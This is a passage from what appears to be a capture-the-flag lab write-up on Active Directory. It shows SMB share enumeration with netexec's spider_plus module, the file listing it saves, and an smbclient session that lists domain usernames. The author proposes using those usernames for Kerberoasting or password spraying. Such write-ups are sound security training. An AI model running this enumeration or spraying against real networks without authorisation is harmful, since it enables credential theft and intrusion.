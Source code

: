 SMB         10.10.11.129    445    RESEARCH         C$                              Default share
SMB         10.10.11.129    445    RESEARCH         CertEnroll      READ            Active Directory Certificate Services share
SMB         10.10.11.129    445    RESEARCH         helpdesk                        
SMB         10.10.11.129    445    RESEARCH         IPC$            READ            Remote IPC
SMB         10.10.11.129    445    RESEARCH         NETLOGON        READ            Logon server share 
SMB         10.10.11.129    445    RESEARCH         RedirectedFolders$ READ,WRITE      
SMB         10.10.11.129    445    RESEARCH         SYSVOL          READ            Logon server share 
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/10.10.11.129.json".
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] SMB Shares:           8 (ADMIN$, C$, CertEnroll, helpdesk, IPC$, NETLOGON, RedirectedFolders$, SYSVOL)
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] SMB Readable Shares:  5 (CertEnroll, IPC$, NETLOGON, RedirectedFolders$, SYSVOL)
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] SMB Writable Shares:  1 (RedirectedFolders$)
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] Total folders found:  148
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] Total files found:    35
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] File size average:    871.74 B
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] File size min:        20 B
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] File size max:        6.2 KB
{% endhighlight %}

We can view <mark>spider_plus</mark> module's output issuing a command:
{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/search]
└─$ cat /tmp/nxc_hosted/nxc_spider_plus/10.10.11.129.json
<SNIP>
        "sierra.frye/Desktop/user.txt": {
            "atime_epoch": "2021-11-18 01:55:27",
            "ctime_epoch": "2021-11-18 01:55:27",
            "mtime_epoch": "2021-11-18 02:18:26",
            "size": "33 B"
        }, 
<SNIP>
{% endhighlight %}
However, we do not find anything interesting. Only that the <mark>user.txt</mark> flag is in the <mark>sierra.frye/Desktop</mark> directory.

Browsing to <mark>RedirectedFolders$</mark> share reveals a bunch of usernames. We can make a list of usernames and use it to Kerberoast, or password spray to check if the password is being reused.
{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/search]
└─$ smbclient \\\\10.10.11.129\\RedirectedFolders$ -U hope.sharp
Password for [WORKGROUP\hope.sharp]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  Dc        0  Wed Mar 12 14:47:49 2025
  ..                                 Dc        0  Wed Mar 12 14:47:49 2025
  abril.suarez                       Dc        0  Tue Apr  7 20:12:58 2020
  Angie.Duffy                        Dc        0  Fri Jul 31 15:11:32 2020
  Antony.Russo                       Dc        0  Fri Jul 31 14:35:32 2020
  belen.compton                      Dc        0  Tue Apr  7 20:32:31 2020
  Cameron.Melendez                   Dc        0  Fri Jul 31 14:37:36 2020
<SNIP>
{% endhighlight %}
